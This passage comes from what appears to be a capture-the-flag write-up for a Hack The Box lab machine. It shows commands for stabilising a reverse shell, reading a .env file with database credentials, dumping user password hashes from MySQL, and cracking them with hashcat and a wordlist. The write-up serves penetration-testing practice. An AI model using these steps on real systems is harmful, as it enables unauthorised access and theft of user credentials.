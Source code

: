 Now I stabilized the shell:

```shell
python3 -c "import pty; pty.spawn('/bin/bash')"
# then
export TERM=xterm
# Press -> Ctrl + Z
stty raw -echo; fg
```

## Lateral Movement

Now I checked the `/var/www/html` directory and found the `.env` file:

```shell
www-data@2million:~/html$ ls -la

[redacted]
drwxr-xr-x 10 root root 4096 Oct 29 21:20 .
drwxr-xr-x  3 root root 4096 Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
```

Which contained the following content:

```shell
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

So I connected to the Mysql database:

```shell
mysql -u admin -h 127.0.0.1 -p

show databases;
use htb_prod;
show tables;
select username,password from users;
+--------------+--------------------------------------------------------------+
| username     | password                                                     |
+--------------+--------------------------------------------------------------+
| TRX          | $2y$10$TG6oZ3ow5UZhLlw7MDME5um7j/7Cw1o6BhY8RhHMnrr2ObU3loEMq |
| TheCyberGeek | $2y$10$wATidKUukcOeJRaBpYtOyekSpwkKghaNYr5pjsomZUKAd0wbzw4QK |
| gitblanc     | $2y$10$qanytlXF..4wnIiBXY6bkOefVkE0RfyhIWyuI49NPo3.Gj7UH.qZ. |
+--------------+--------------------------------------------------------------+
```

As you can see, the passwords were hashed, so I bruteforced them. Inspecting in the [official hashcat page](https://hashcat.net/wiki/doku.php?id=example_hashes) they seemed to be hashed in bcrypt:

```shell
hashcat -m 3200 -a 0 -o cracked.txt hashes.txt /usr/share/wordlists/rockyou.txt
```
